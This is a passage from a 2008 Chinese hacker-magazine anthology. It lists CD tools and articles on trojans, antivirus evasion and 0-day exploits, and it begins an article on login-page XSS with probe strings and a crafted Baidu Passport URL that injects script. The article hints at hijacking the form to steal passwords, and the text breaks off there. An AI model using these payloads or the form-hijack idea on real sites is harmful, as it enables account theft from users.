# 黑客防线2008精华本（下）

---

## 黑客防线 2008

## 精华奉献

- 杀软漏洞屡屡发作
- 脚本漏洞屡败屡作
- 溢出研究热点剖析
- 系统防护高手攻略

10大黑客技术专题栏目  
200篇精品攻防文章  
1200MB黑客经典工具与教程

ISBN 7-900447-54-7





全套定价：39.80元（附双CD光盘）

## 网络安全从入门到精通


黑客防线 编

## 内容提要

《黑客防线2008精华奉献本》是国内最早创刊的网络安全类媒体《黑客防线》总第73期到第84期的精华文章摘要，杂志理念“在攻与防的对立统一中寻求突破”完美地体现在本书中。全书按攻防对立的关系，分为上下两册（本册为上册），并附带2张包含1200M安全技术录像的光盘。文章通俗易懂、图文并茂，在每个关键知识点和细节上还有详细的“小知识”“小提示”，方便大家理解和阅读。在栏目划分上，选取了网络安全技术上最热门、读者最喜欢的各大栏目，典型的有脚本攻击/脚本攻击防范、漏洞攻击/漏洞攻击防范、黑兵器库/黑器攻击防范等，并增加了全新的专题文章，同时选取国内首创的“新手学溢出”栏目中的精品文章，非常适合各层次读者学习！

本书适合各高校在校生、网络管理员、安全公司从业者、黑客技术爱好者阅读。

## 黑客防线2008精华奉献本（下册）

- 编：《黑客防线》编辑部
- 责任编辑：徐生震
- 编辑策划：李志华 黄婷
- 出版：齐鲁电子音像出版社
- 开本：782×1092 1/16
- 印张：36
- 字数：3800千字

ISBN 7-900447-54-7  
全套定价：39.80元（附双光盘）

本书如有印刷质量问题（错页、掉页、残页等），请您与我们联系，我们负责调换。  
联系电话：010-62141446  
图文版权所有，未经同意不得转载、翻印。

## 关于《黑客防线2008精华本》的出版说明

首先，要向广大支持、爱戴《黑客防线》的读者朋友们表示歉意，由于各种原因，2008精华本迟至今日才得以出版。对于多次询问、催促的朋友们，算是有了一个交代。

2008年，是不平凡的一年。这一年，黑防做了很多事情，包括杂志进一步提升技术水准，到了后半年又考虑到很多入门级读者的要求，把光盘改为普及型的电子杂志，同时，网站VIP会员的规范性管理、培训班的正规化管理，很多事情都是在这一年完成的。以至于使2008精华本拖延至今，好在我们还是在年底之前把它制作出来了，算是了了一桩心愿。对于时刻关注黑防的人、珍藏黑防精华本的人，总算没有出现空缺一本的遗憾。

其实，大家都知道，所谓2008精华本，大部分都是2007年以来的精华文章。只不过重新制作一本精华本，就给了我们又一次去粗取精、去伪存真的机会。特别是随着时间过去几个月，对各方面技术的认识又会多一些沉淀和判断，也是读者对于我们选编水平和技术评判标准的又一次检验。说到这里，让我们再一次感谢读者对我们的认可和支持，也感谢我们的作者提供的分门别类的技术原创文章。特别要感谢的是，那些没有选入精华本文章的作者，还是一如既往地支持我们，提出宝贵的建议，同时自己也在购买这本精华本。

在此需要说明的是，很多读者踊跃购买精华本，一方面表明对精华本这种出版形式的认可，同时也是由于对于每月购买《黑客防线》月刊感到不便。这也是困扰我们多年的问题。庆幸的是，对于月刊的发行和订阅，已经有了一些改进的方法在实施。特别是2009年的订阅，准备完全采用快递的方式，这就首先解决了不能够及时到报亭购买杂志的繁忙人士的困难，对于了解新技术，也就不用等待很久了。

这本精华本发行之际，差不多也快到感恩节了。让我们感恩一个网络时代带给我们网络技术的这个新领域，感恩通过技术追求建立起来的共同部落，感恩作者、编者和读者这种不解之缘。还要感恩我们网站的VIP会员、培训班学员，他们之中有很多人已经成为我们的作者和技术团队成员。最后要感恩的是，在技术面前人人平等——这就是黑客防线赋予我们的无限机缘。

## 黑客防线2008精华奉献本 光盘目录



### 编程解析

- VC编写精小反弹穿墙木马
- 制作永久卡巴免杀MS06014网马生成器
- 编程实现木马的ActiveX启动和注入IE的启动方式
- 套接字编程实现网页内容的获取
- 以“熊猫烧香”的名义再谈Delphi编写病毒程序
- 浅谈蠕虫病毒的特性——仿制熊猫烧香
- DNS放大攻击原理、实现与防御
- 盗号研究怎能缺少新浪UC
- Windows Rootkit开发初步
- 浅析导入函数及导出导入表的内容
- 基于SMTP/POP3协议的新型僵尸网络实现
- 用原始套接字实现网络入侵检测系统

### 黑兵器库

- 傀儡僵尸终极免杀
- 猎杀灰鸽子——针对木马控制端的攻击
- 另类跨站攻击工具XSS Shell
- 黑防鸽子再免杀
- 打造自己的加壳程序
- 免杀NOD32查杀机制之输入输出表篇
- 利用“壳”中改“籽”免杀灰鸽子2007
- PCShare2007新免杀
- 修改5款木马过卡巴斯基
- 脚本后门攻网页木马的免杀
- 木马免杀之内存定位过最新QQ医生1.4版

### 网管之家

- 网络保安 21.00 Build 0928
- 打造企业即时消息协作平台部署Live Communications Server 2005
- 用Debugging Tools for Windows寻找服务器意外重启的线索
- 冰盾专业级抗DDOS防火墙8.8 Build 80818
- 畅游巡警 1.0.9.6 Build 0922
- 客户端安装之网络GHOST
- 超级巡警4.0 Build 0926安装版
- 木马分析专家个人防火墙2008 0927
- DIY简易硬件防火墙
- 天锐局域网扫描工具1.0

### 盗界寻踪

- 小菜学破解之一：破解兵器、要点及其组合
- 小菜学破解之二：玩“风”
- 小菜学破解之三：玩“风”之追“风”
- 小菜学破解之四：汇编助记符与算法分析基础
- 小菜学破解之五：爆破、爆破分析与爆破方法
- 小菜学破解之六：例说软件插件的跟踪分析方法
- 手把手教你.NET程序加解密之一：初识.NET程序破解
- 手把手教你.NET程序加解密之二：名称混淆、代码的重用
- 手把手教你.NET程序加解密之三：强名称保护
- 手把手教你.NET程序加解密之四：.NET下程序的脱壳
- 深入分析与破解QQ键盘加密保护的反Protect技术

### 安全防御工具

- USB WriteProtector 1.0.2.0
- 360保险箱V2.4.0.1001绿色正式版
- RemoveIT Pro XT SE 26.09.2008绿色版
- 宏杰工具之文件夹加密V1928绿色版
- SpyBot-Search and Destroy 1.6.0.31绿色多语版
- WinPatrol V15.9.2008.0绿色汉化版
- 文件MD5校验工具V2.0绿色版
- 1-2-3 Spyware Free 4.7绿色英文版
- Software Removal Tool V2.2绿色多语版
- The Cleaner 5.2.0.1100 Free绿色英文版
- 局域网ARP绑定工具1.0.0.2
- ZoneAlarm ForceField v1.1.79
- 木马专家2008 0.825奥运版
- Max Secure Spyware Detector Threat Definitions 16.01.220 (64-bit)
- LAN Shield（局域网攻防系统）1.00绿色版
- Microsoft Source Code Analyzer for SQL Injection
- Scrawlfp 1.3绿色英文版
- 木马群专杀V1.1绿色加强版
- 360顽固木马专杀大全08-09-26绿色版
- Ad-Aware SE Build 1061绿色版+080926特征库
- Dr.Web CureIT! 4.44 08.09.29绿色版
- 卡巴斯基病毒清除工具7.0.0.242
- Norman Malware Cleaner V2008.09.18
- 365门神1.31绿色版
- Spyware Terminator 2.5.0.532绿色英文版
- ClamWin Portable V0.94绿色英文便携版

一套功能非常优秀的免费防毒软件。体积非常小，不会占用太多计算机资源，而且除了强大的文件与电子邮件防护能力之外，它还拥有线程扫描、在线更新病毒库、及时侦测等功能。

- 金刚文件夹加密专家10.5
- LockCrypt 1.82绿色英文版
- Signature995 V9.0绿色版
- 17专加密器2.0.0
- 水依亭文件加密器2.0绿色版
- SimpPro v2.2.3绿色英文版
- 雅典娜网页密码锁V20080808绿色版
- Pocket Cache 1.4.0绿色英文版
- 大家狗加密专家奥运版
- 文件加密1.5绿色版
- LSASeriesView V1.13绿色汉化版
- RunAsDate 1.04绿色英文版
- IE PassView V1.09绿色英文版
- KS加密V1.1
- Password Depot 3.23英文绿色特别版
- Office Multi Document Password Cracker 2.0.0.4英文绿色特别版

（中间穿插多段说明文字）包括：文件/目录加密、口令恢复、即时通信记录加密、浏览器密码恢复、PDF/Office文档加解密等工具说明。

以下解密过程不超过5秒，而且操作简单，无需设置。密码破解过程不是常规的暴力或字典破解，而是通过文档本身的文件头进行密码检查，效率极高。

- CryptoExpert 2008 Lite v7.6.0
- EncrypOnClick 1.208绿色英文版
- Nsasoft SpotMSN V1.5绿色英文特别版
- John the Ripper password cracker 1.7.0.1绿色版
- Cain & Abel V4.9.22绿色英文版
- 图样ACCESS密码找回器1.00 Beta
- FTP Password Recovery Master V1.1
- Ziperello V2.0绿色汉化特别版
- Passware Kit Enterprise 8.3 Build 2807绿色汉化特别版

（多段说明）涉及MSN口令恢复、跨平台口令破解、网络协议口令分析、FTP客户端密码恢复，以及Office/Windows/ZIP/RAR等文件密码恢复能力。

### 免杀工具包

- 加壳工具PEiD
- 编辑工具UltraEdit32
- 静态分析工具w32dasm
- 资源修改工具Restorator 2006
- LordPE
- 加区段工具zeroadd
- CCL2.8最终版
- MYCCLL（定位内存组合包）
- AsmFun（汇编指令查询器）1.2
- 花指令添加器V2.0
- 花指令编写手册
- WinMD5
- 木马辅助查找器
- 灰鸽子远程管理软件服务端卸载工具
- 网络休闲庄专用加壳程序F1修改版
- MaskPE 2.0最终版
- ASPACK2.12免KVP.KV修改版第3版

### 经典工具源码工具

- C++版SQL TOOL
- C语言下的端口扫描代码
- 一个内核级的SHELL工具源代码
- 《远程控制编程技术》源代码
- ActiveX启动方式代码
- 进程门神V1.0源码
- 经典远程控制木马Way2.4代码
- 三种语言的下载者源代码 C、Delphi、VB
- 上兴黑软管理器源代码
- Hacker Defender 1.0.0源码
- 开启远程Windows 2000主机的Telnet服务VC++
- Proxlee2.0正向连接后门
- QQ聊天记录读取器源码
- SQL注入SA权限CMO终结者+C源码
- 动乐团综合外挂
- 网页木马生成器源码
- 网页验证码识别源码



### 首发漏洞

- Input XSS最新漏洞及利用
- 揭秘阿里巴巴支付控件多个安全漏洞
- 深入剖析挖掘风讯0Day
- 0Day挑战“安全高速”的WinWebMail
- 惊爆超星阅览器远程溢出0Day
- 潜伏的危机——腾讯QQ再现0Day
- 再次曝光腾讯浏览器溢出0Day
- 卡巴斯基删除任意文件0Day
- 超星再现远程溢出0Day
- IE数字证书控件拒绝服务漏洞
- 暴风影音II ActiveX栈溢出0Day
- IE脚本解析错误拒绝服务漏洞

### 特别专题

- “跨”进官方服务器——全面剖析F2Blog漏洞
- BBSXP 0Day详细分析与获取系统权限
- 亲密接触QQ 0Day
- Discuz也玩钓鱼
- Apple QuickTime RTSP解析漏洞分析与利用
- 瑞星防火墙畸形规则文件溢出漏洞0Day
- Yahoo! Messenger ActiveX远程栈溢出漏洞分析与利用
- PHP SNMP扩展库函数栈溢出漏洞分析

### 漏洞攻防

- 快乐吧视听网漏洞分析与利用
- Ajax Hacking实战
- 动易网站管理系统最新漏洞解析
- 测试蓝色伊人下载系统
- FCKEditor入侵加提权
- 桃源网络硬盘最新漏洞分析与利用
- 动易：我是被微软陷害的
- 挂马之神
- 解析讯时代网站管理系统漏洞
- 熊猫卫士本地提权漏洞体验
- 充分发掘GTS旅游系统0Day
- 经典重现，看菜鸟如何入侵内网

### 脚本攻防

- JTBC网站内容管理系统漏洞解析
- 将网页挂马进行到底
- Cookies欺骗入侵Cnmai二手信息发布系统
- 飞越统计系统漏洞分析
- 注入网上购物商城网站管理系统
- FreeBSD下拿Root权限
- 发现注册型注入点
- 霸王大陆木马破解修复
- 简单破解软件

### 新手学溢出

- 打造自己的ShellCode综合分析工具
- 编写全数字字母的ShellCode
- MS07-004分析和利用
- WinRAR 7z文件名溢出分析和利用
- 编写Unicode有效的ShellCode
- OllyDBG Format String 0Day分析与利用
- Fuzzing in Word溢出分析和利用
- WinRAR栈溢出分析和利用
- WinPcap驱动畸形参数漏洞分析

### 搜索引擎优化

- 网站地图制作工具（xml）
- RankingBooster 2.0 Alexa排名工具
- SEO中文排名优化方案百度篇
- Exlink Monitor V1.0搜索引擎排名监测软件
- XENU Link Sleuth 1.2d检查网站死链工具
- SEO关键词分析工具
- 友情链接检测工具

### ASP VIP教程

- 第1章 基础篇
- 第2章 进阶篇
- 第3章 SQL数据库篇
- 第4章 整站教程——文章及文章评论教程生成Html文件教程（SQL数据库DIV+CSS布局）
- 第5章 整站教程2——文件及下载系统教程
- 第6章 整站教程3——图片管理系统教程
- 第7章 整站教程4——购物车教程和网站多用户系统教程（Blog博客教程）
- 第8章 整站教程5——广告管理系统教程、友情链接管理系统教程和广告联盟管理系统教程
- 第9章 整站教程6——邮件发送系统教程和论坛教程
- 第10章 整站教程7——MD5加密教程和网站安全教程
- 第11章 整站教程8——搜索系统教程
- 第12章 整站教程9——站内短信系统教程和在线考试系统教程
- 第13章 整站教程10——音乐系统教程和留言系统教程
- 第14章 整站教程11——会员系统教程、后台管理和管理员分级教程
- 第15章 Dreamweaver CS3教程和CSS+DIV布局教程

### 社会工程学工具包

- Google Hacks
- Goo清扫员
- t3chn0bra1n'z Googler
- 溯雪7
- 32个文档密码恢复工具
- 查看远程桌面密码
- WORD文件密码
- MD5批量破解加密V2.0
- 网站用户密码猜测工具
- PDF密码移除器
- 黑客字典
- QQ空间密码猜解工具
- MSN聊天记录查看器
- 代理王
- FinalData

### 黑防VIP会员心声

- 我看黑防 by piplup
- 黑防学习与建议 by icesoso
- 我的学习方法和建议 by www168

## 黑客防线2008精华奉献本 目录（下册）

### 首发漏洞

- Input XSS最新漏洞及利用 …… 1
- 揭秘阿里巴巴支付控件多个安全漏洞 …… 3
- 深入剖析挖掘风讯0Day …… 6
- 0Day挑战“安全高速”的WinWebMail …… 12
- 惊爆超星浏览器远程溢出0Day …… 14
- 潜伏的危机——腾讯QQ再现0Day …… 17
- 再次曝光腾讯浏览器溢出0Day …… 18
- 卡巴斯基删除任意文件0Day …… 20
- 超星再现远程溢出0Day …… 22
- 来自Outlook Express通讯簿的欺骗 …… 23
- Windows Genuine Advantage Validation Tool用户信息泄漏漏洞 …… 25
- IE数字证书控件拒绝服务漏洞 …… 26
- 下载、执行、挂马任我所为——暴风影音II ActiveX栈溢出0Day …… 27
- IE脚本解析错误拒绝服务漏洞 …… 29

### 特别专题

- “跨”进F2Blog官方服务器——全面剖析F2Blog漏洞 …… 31
- 亲密接触QQ 0Day …… 38
- 致命的畸形参数漏洞——Kaspersky Labs Anti-Virus本地权限提升漏洞分析与利用 …… 43
- Adobe Acrobat Reader外部命令参数解析0Day漏洞利用 …… 48
- Discuz也玩钓鱼 …… 50
- Discuz! 5.0 pm.php最新注入漏洞详细分析与利用 …… 53
- Apple QuickTime RTSP解析漏洞分析与利用 …… 57
- 防火墙，我该如何信任你？——瑞星防火墙畸形规则文件溢出漏洞0Day …… 60
- 夺命注册表——瑞星注册表修复工具溢出0Day …… 62
- Yahoo! Messenger：ActiveX远程栈溢出漏洞分析与利用 …… 64
- BBSXP 0Day详细分析与获取系统权限 …… 67
- PHP SNMP扩展库函数栈溢出漏洞分析 …… 70
- 超星阅读器pdg2.dll ActiveX栈溢出0Day …… 74

### 漏洞攻防

- okphpBLOG漏洞解析 …… 77
- 快乐视听娱乐网漏洞分析与利用 …… 79
- Ajax Hacking实战 …… 82
- 动易网站管理系统最新漏洞解析 …… 85
- 测试蓝色伊人下载系统 …… 89
- 从Web漏洞到Root权限全展现 …… 91
- FCKEditor入侵加提权 …… 93
- 桃源网络硬盘最新漏洞分析与利用 …… 95
- 动易，我是被微软陷害的 …… 98
- 挂马之神 …… 99
- 利用匿名用户提权——谈Serv-U FTP服务System权限的利用 …… 102
- Microsoft GD本地权限提升漏洞分析与利用 …… 106
- 站在前人的肩膀上入侵 …… 109
- 末日危机——微软ANI漏洞分析与利用 …… 113
- 沸腾的蚁穴——沸腾展望多媒体新闻系统v1.1的灭顶之灾 …… 116
- 解析讯时网站管理系统漏洞 …… 121
- UltraISO畸形cue-bin文件栈溢出漏洞 …… 122
- 入侵Windows 2003系统 …… 125
- 从天涯海角整站漏洞到入侵黑客中国安全网 …… 129
- 南方数据、网软天下与新青年企业建站系统最新漏洞 …… 131
- 熊猫卫士本地提权漏洞体验 …… 133
- 又一隐蔽挂马方法 …… 135
- 诺顿symtdi.sys本地权限提升漏洞分析与利用 …… 136
- Word畸形数据结构溢出漏洞分析与利用 …… 140
- 经典重现看菜鸟如何入侵内网 …… 144
- 艰难突破飞雨政府建站系统 …… 149
- 榨干Yahoo!的最后一滴血 …… 152
- Windows RSH daemon 1.7远程栈溢出漏洞分析与利用 …… 156

- 百度超级投霸远程代码执行漏洞利用 …… 160  
- ACDSee v9.0 XPM文件溢出利用 …… 161  
- Microsoft Visual Studio 6.0挂马漏洞 …… 164  
- 利用联众世界游戏大厅挂马 …… 166  
- 揭密MS07-055 TIFF图像文件处理栈溢出漏洞 …… 169  
- Linux 64位内核Ptrace权限提升漏洞分析与利用 …… 173  
- PHP 5.x COM functions提权漏洞的利用 …… 177  

## 脚本攻击防御

- 首发JT论坛漏洞 …… 180  
- 日记本BUG瞬间拿下梦想中国热线 …… 182  
- 首发尘缘图文系统后台上传Shell漏洞 …… 184  
- Cookies高级窃取法之Ajax …… 185  
- 蝶梦林许愿本漏洞浅析 …… 187  
- 飞龙文章管理系统致命漏洞分析 …… 188  
- JTBC网站内容管理系统漏洞解析 …… 191  
- 将网页挂马进行到底 …… 194  
- Cookies欺骗入侵Cnmai二手信息发布系统 …… 197  
- 沸腾3AS新闻系统0.45 Access Finish版攻防实战 …… 200  
- 对目标站点的探测分析到成功获取若干WebShell …… 204  
- 飞越统计系统漏洞分析 …… 206  
- 公版开源程序安全的伤与痛——南方企业网站管理系统漏洞分析 …… 209  
- 巧妙绕过SQL通用防注入系统，轻松入侵中网烹论坛 …… 211  
- 注入网上购物商城网站管理系统 …… 214  
- 利用JavaScript进行注入 …… 216  
- 新浪也挂马——手把手教你新浪博客挂马 …… 217  
- 渗透方法论之脚本篇 …… 219  
- 详细分析“取回密码”注入 …… 221  
- 动易2006 SP6跨站钓鱼 …… 223  
- 讯时新闻系统最新版又一漏洞曝光 …… 227  
- SQL Server 2005注入与XP_cmdshell …… 228  
- 将讯时再次推向风口浪尖 …… 230  
- IE执行JavaScript实现表单提交及获取WebShell …… 231  
- FreeBSD下获取Root权限 …… 233  
- 发现注册型注入点 …… 236  
- 充分发掘GTS旅游系统0Day …… 238  

#### 漏洞研究

- 菜鸟版Exploit编写指南之三十一：打造自己的ShellCode综合分析工具 …… 241  
- 菜鸟版Exploit编写指南之三十二：编写全数字字母的ShellCode …… 244  
- 菜鸟版Exploit编写指南之三十三：MS07-004分析和利用 …… 246  
- IPMsg溢出的简单分析 …… 248  
- 菜鸟版Exploit编写指南之三十四：WinRAR 7z文件名溢出分析和利用 …… 250  
- 新手溢出TFTPD …… 254  
- 打造200字节的最短通用ShellCode …… 256  
- 菜鸟版Exploit编写指南之三十五：编写Unicode有效的ShellCode …… 260  
- ShellCode到洞悉溢出漏洞原理 …… 262  
- 迅雷5远程拒绝服务漏洞0Day分析 …… 264  
- 菜鸟版Exploit编写指南之三十六：OllyDBG Format String 0Day分析与利用 …… 266  
- SP2下利用TEB执行ShellCode …… 268  
- 菜鸟版Exploit编写指南之三十七：Fuzzing in Word溢出分析和利用 …… 270  
- 菜鸟版Exploit编写指南之三十八：WinRAR栈溢出分析和利用 …… 272  
- 菜鸟版Exploit编写指南之三十九：WinPcap驱动畸形参数漏洞分析 …… 275  
- 菜鸟版Exploit编写指南之四十：编写绕过卡巴主动防御的ShellCode …… 277  
- 菜鸟版Exploit编写指南之四十一：从卡巴漏洞管窥内核模式ShellCode的编写 …… 279  
- 菜鸟版Exploit编写指南之四十二：Windows CE缓冲区溢出利用技术 …… 283  

### 搜索引擎优化

- Google PR劫持以及识别方法 …… 290  
- 使用Sitemap让搜索引擎更快更全面地收录网站 …… 291  
- Google排名浅谈之PageRank …… 294  
- SEO中文排名优化方案百度篇 …… 296  
- 针对Yahoo!进行网站优化 …… 299  
- 浅谈博客的搜索引擎优化 …… 300  
- 轻轻松松提高百度排名之作弊篇 …… 303  
- 十招征服百度搜索引擎 …… 305  
- 轻轻松松提高百度排名之优化篇 …… 307  
- 认识搜狗搜索引擎，认识Sogou Rank …… 309  

适合读者：入侵爱好者  
前置知识：无  

#### Input XSS
## 最新漏洞发掘利用

文/图 梦之光芒（Monyer）



快过年了，所以文章开头忍不住要啰嗦几句。首先当然是要祝大家新年快乐（省略若干新年贺词）；然后就是把工作放一放，多回家看看！既然是新一年的文章，Monyer当然不会忘记给大家带来新的漏洞，继续我们的Ajax Hacking，依然要谈XSS，不过这回的利用漏洞一定会让你感到惊喜！

我们知道，如果要使XSS能够实现，我们的代码必须通过某种方式嵌入到对方的网页中。像注入漏洞的“' and 1=1”和“and 1=2”一样，Input XSS也有自己的漏洞检测字符串，它们就是“<>”“<iframe>”和“<script>alert(/xss/)</script>”。当你在Input框中输入“<>”并在新页面的源代码中找到这对标签的话，那么基本上就说明它存在Input XSS漏洞；而“<iframe>”则是它的可视化检测方式；如果“<script>alert(/xss/)</script>”能够实现，则证明该页面可以执行脚本攻击，但是是否可以被插入脚本，在本次测试里并不是非常重要，后面你将会知道。

传统的对于Input实行XSS攻击的漏洞，一般被利用在一个站点的搜索程序上，比如http://v.baidu.com/srh.php?f=1&word=%3Ciframe%3E，如图1所示，而新的漏洞则存在于用户登录界面上。

由于现在大部分站点的登录系统为了方便用户，采取将输错的用户名返回通知用户的方式，但却没有对通知信息进行过滤，导致跨站攻击的产生。简单来说就是，你在用户名处输入“' I Am Monyer'”但返回给你的结果是“对不起！I Am Monyer这个用户名不存在”，或者是返回原页面，仅对密码框内容进行清空，但却依然保留在用户名框中你所输入的用户名，这样当你在用户名处输入“<iframe>”，该代码就会在返回页中执行，跨站也就产生了。

我们下面将对国内的几个大站点进行检测，之所以没有针对国外，是因为这个漏洞依然是具有“中国特色”的。

## 百度Passport登录XSS

百度这么大的网站，自然少不了它。来到Passport，直接在用户名处输入“<>”，提交后查看源代码，可以发现它没有对HTML标签进行过滤或转换，而是直接反馈给了我们，这就令我们有机可乘了，如图2所示。



图2

```text
http://passport.baidu.com/?login&username="><script>alert(/xss/)</script>&password=123
```

我们直接通过URL构造XSS代码（因为input输入框一般都有长度限制）；并提交，结果如图3所示。

我们会看到百度已经把代码填补成 `<input type="text" name="username" id="username" value="\">`，`<script>alert(/xss/)</script>` `<class="ip"/>`。这里要注意一下，百度会把引号转换成斜杠+引号。如果我们添加一行代码，只负责把Form的Action进行转向的话，那么当用户再次填写用户名和密码时，就……

